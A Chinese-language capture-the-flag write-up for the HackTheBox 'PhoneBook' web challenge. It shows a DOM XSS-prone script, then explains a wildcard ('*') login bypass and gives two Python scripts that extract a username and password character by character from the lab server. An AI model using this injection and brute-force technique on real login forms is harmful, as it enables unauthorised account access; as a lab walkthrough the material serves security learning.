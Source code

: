 ```yaml
---
title: HackTheBox PhoneBook WriteUP
date: 2023-08-22 09:15:09
tags: 
- HackTheBox
- Web
- 暴力破解
---
```


## 题目

![Who is lucky enough to be included in the phonebook?](image-1.png)

## 思路

题目给出的网页是这样

![index](image-2.png)

看到HTML中有这样一段代码，还以为这题是个DOM XSS(事实上也确实有XSS)

``` HTML
<script>
  const queryString = window.location.search;
if (queryString) {
  const urlParams = new URLSearchParams(queryString);
  const message = urlParams.get('message');
  if (message) {
    document.getElementById("message").innerHTML = message;
    document.getElementById("message").style.visibility = "visible";
    }
  }
</script>
```

但是XSS是需要人触发的，题目中并没有给出任何BOT的信息。

所以最终的解法要落在登录功能上。

## 解题

登录功能可以通过通配符`*`进入，登录成功之后是一个只有搜索框的页面（这里忘记截图了）。搜索功能可以找到若干账户的信息。

![搜索](image-3.png)

题目的提示是：`Who is lucky enough to be included in the phonebook?`，所以我们应该想办法获取能登录的账号密码。

登录功能可以识别通配符，所以直接写脚本遍历就好了。

> userbrute.py

``` python
import requests

url = "http://157.245.43.189:30403/login"
value = ''
flag = True

while(flag):
    flag = False
    for i in range(33,126,1):
        if(chr(i)=='*'):
            continue
        uname = value + chr(i) + '*'
        data = {"username": uname, "password": "*"}
        resp = requests.post(url, data=data, allow_redirects=False)
        print(uname+'\t'+str(resp.status_code))
        if(resp.status_code != 302):
            continue
        if(resp.headers['Location'] == '/'):
            value = value+chr(i)
            print(value)
            flag = True
            break
```

> passbrute.py

``` python
import requests

url = "http://157.245.43.189:30403/login"
value = ''
flag = True

while(flag):
    flag = False
    for i in range(33,126,1):
        if(chr(i)=='*'):
            continue
        password = value + chr(i) + '*'
        data = {"username": "REESE", "password": password}
        resp = requests.post(url, data=data, allow_redirects=False)
        # print(password+'\t'+str(resp.status_code))
        if(resp.status_code != 302):
            continue
        if(resp.headers['Location'] == '/'):
            value = value+chr(i)
            print(value)
            flag = True
            break
```

取得flag：

![flag](image-4.png)

## 后记

~~真正的解题思路是看了别人的writeup才明白的，通配符这是真没想到……~~